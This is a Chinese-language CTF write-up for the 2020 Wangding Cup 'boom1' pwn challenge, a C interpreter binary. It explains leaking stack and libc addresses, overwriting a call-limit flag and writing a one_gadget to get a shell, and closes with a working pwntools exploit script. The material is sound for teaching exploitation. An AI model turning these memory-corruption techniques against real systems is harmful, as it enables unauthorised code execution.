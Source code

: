 # 【复现】网鼎杯 2020 青龙组 boom1

这道题目看起来是一个c语言的解释器，跟这个-[write-a-C-interpreter](https://github.com/lotabout/write-a-C-interpreter)很像，就没详细逆向。

### 0x1 分析

```shell
[*] './wdb2020/boom1/pwn 2'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

保护全开。

这道题目我主要看了一眼`main`函数。主要有这么几个注意的地方。

1. 这里给出了可以用的东西：

   ```c
   "char else enum if int return sizeof while open read write close puts malloc free printf memset memcmp exit void main";
   ```

2. 一是函数只能用一次，准确来说应该是调用函数的指令只能用一次：

   ```c
   if ( v68 != 30 )
     break;
   v39 = flag--;
   if ( v39 != 1 )
   {
     puts("NOTALLOW");
     exit(0);
   }
   v60 = open((const char *)stacka[1], *stacka, v50, v51);
   ```

3. 二是这个`flag`的位置在`data`段

4. 然后是经过测试我们可以泄漏出真实的栈地址。

   ```c
   payload= '''
   int main(int argc,char ** argv){
       int a;
       printf("%llx,%llx\n",&a,argv);
   }
   '''
   
   // output:
   // 0x7feecfd79fd8,0x7ffeeb0de420
   
   pwndbg>vmmap
   pwndbg> vmmap
   LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
       0x558a9bbb7000     0x558a9bbbd000 r-xp     6000 0      /root/wdb2020/boom1/pwn
       0x558a9bdbc000     0x558a9bdbd000 r--p     1000 5000   /root/wdb2020/boom1/pwn
       0x558a9bdbd000     0x558a9bdbe000 rw-p     1000 6000   /root/wdb2020/boom1/pwn
       0x7feecf863000     0x7feecfa23000 r-xp   1c0000 0      /lib/x86_64-linux-gnu/libc-2.23.so
       0x7feecfa23000     0x7feecfc23000 ---p   200000 1c0000 /lib/x86_64-linux-gnu/libc-2.23.so
       0x7feecfc23000     0x7feecfc27000 r--p     4000 1c0000 /lib/x86_64-linux-gnu/libc-2.23.so
       0x7feecfc27000     0x7feecfc29000 rw-p     2000 1c4000 /lib/x86_64-linux-gnu/libc-2.23.so
       0x7feecfc29000     0x7feecfc2d000 rw-p     4000 0
       0x7feecfc2d000     0x7feecfc53000 r-xp    26000 0      /lib/x86_64-linux-gnu/ld-2.23.so
       0x7feecfcf9000     0x7feecfe41000 rw-p   148000 0
       0x7feecfe52000     0x7feecfe53000 r--p     1000 25000  /lib/x86_64-linux-gnu/ld-2.23.so
       0x7feecfe53000     0x7feecfe54000 rw-p     1000 26000  /lib/x86_64-linux-gnu/ld-2.23.so
       0x7feecfe54000     0x7feecfe55000 rw-p     1000 0
       0x7ffeeb0bf000     0x7ffeeb0e0000 rw-p    21000 0      [stack]
       0x7ffeeb0f1000     0x7ffeeb0f3000 r--p     2000 0      [vvar]
       0x7ffeeb0f3000     0x7ffeeb0f5000 r-xp     2000 0      [vdso]
   0xffffffffff600000 0xffffffffff601000 r-xp     1000 0      [vsyscall]
   ```

#### 漏洞利用

大致过程就是：泄漏栈地址和ELF地址 -> 修改`flag` -> 写入`one_gadget`拿到shell。

这个程序经测试可以任意地址读写，所以如果我们修改栈比如`main`的`ret`为`one_gadget`，我们就可以拿到`shell`。那么我们首先需要泄漏`libc`。我们可以通过测试中的变量`argv`来得到真实的`stack`，然后计算出`libc_main_ret`的偏移来泄漏`libc`，再然后修改这里为`one_gadget`，就可以拿到`shell`，但是函数只能使用一次，那么就得想办法修改`flag`，来我让我们多次调用函数，索性在保存的`rbp`的位置可以拿到`elf`的地址，然后通过指针偏移（`flag`到原`rbp`的偏移）修改`flag`为`1`，就可以再次调用函数了。

- 这是调试的时候需要用到的栈上的两个位置。

```shell
rbp  0x7ffe9b85e910 —▸ 0x55fa6190ae30 ◂— push   r15
     0x7ffe9b85e918 —▸ 0x7f418decc830 (__libc_start_main+240) ◂— mov    edi, eax
     

pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x55fa61906000     0x55fa6190c000 r-xp     6000 0      /root/wdb2020/boom1/pwn
[···]
    0x7ffe9b83f000     0x7ffe9b860000 rw-p    21000 0      [stack]
```

- 这是当时找的的`rbp`和`flag`的偏移：

  ![](./offset.png)

### 0x2 EXP

```python
#! /usr/bin/python
#-*- coding: utf-8 -*-
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']
context(arch = 'amd64' , os = 'linux', log_level='debug')

p=process('./pwn')
# gdb.attach(p, 'b *$rebase(0x4DE6)\n')
# pause()

payload='''
int main(){
    int *a, *b;
    a = &b;
    a = *(a + 4);
    b = a - 30;
    a = *b;
    b = b + 1;
    a = a + 262716;
    printf("%p\n", *b);
    *a = 1;
    read(0, b, 0x100);
}
'''
print (payload)
p.recvuntil('living...\n')

p.send(payload)
libc_base = int(p.recvline(keepends=False),16) - 240 - 0x020740
success(hex(libc_base))

one = p64(libc_base+0xf1147)
# pause()
p.send(one)

p.interactive()#
```



